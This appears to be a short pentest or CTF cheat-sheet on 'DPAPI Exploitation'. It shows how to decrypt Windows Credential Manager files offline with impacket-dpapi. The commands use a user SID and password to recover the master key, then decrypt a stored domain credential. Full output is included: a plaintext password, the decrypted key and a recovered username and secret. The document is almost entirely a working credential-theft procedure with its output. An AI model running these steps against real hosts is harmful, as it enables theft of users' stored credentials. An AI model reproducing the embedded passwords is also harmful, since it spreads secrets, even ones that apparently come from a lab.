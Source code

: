 # DPAPI Exploitation

## Attacking Credential Manager Offline using impacket-dpapi

* We need to grab 3 things
  - The user SID
  - The Credential File(s) (Stored in %USERPROFILE%\AppData\Roaming\Microsoft\Credentials)
  - The Users Password

1. First we need to extract the key

    ```bash
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    ```
    ```bash
    # Example
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [MASTERKEYFILE]
    Version     :        2 (2)
    Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
    Flags       :        0 (0)
    Policy      :        0 (0)
    MasterKeyLen: 00000088 (136)
    BackupKeyLen: 00000068 (104)
    CredHistLen : 00000000 (0)
    DomainKeyLen: 00000174 (372)

    Decrypted key with User Key (MD4 protected)
    Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
2. That will give us the key to decrypt the credential vault

    ```bash
    impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
    ```bash
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
    ```
